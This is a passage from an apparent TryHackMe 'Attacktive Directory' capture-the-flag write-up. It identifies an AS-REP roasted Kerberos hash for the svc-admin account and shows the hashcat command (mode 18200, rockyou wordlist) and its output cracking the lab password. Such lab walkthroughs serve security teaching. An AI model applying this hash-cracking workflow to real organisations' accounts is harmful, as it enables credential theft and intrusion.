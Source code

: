 2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](./2020-10-17_11-17.png)

`Kerberos 5 AS-REP etype 23`

3. What mode is the hash?

`18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396:management2005
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd0...0ef396
Time.Started.....: Sat Oct 17 11:20:29 2020 (14 secs)
Time.Estimated...: Sat Oct 17 11:20:43 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   423.7 kH/s (7.51ms) @ Accel:48 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5842944/14344385 (40.73%)
Rejected.........: 0/5842944 (0.00%)
```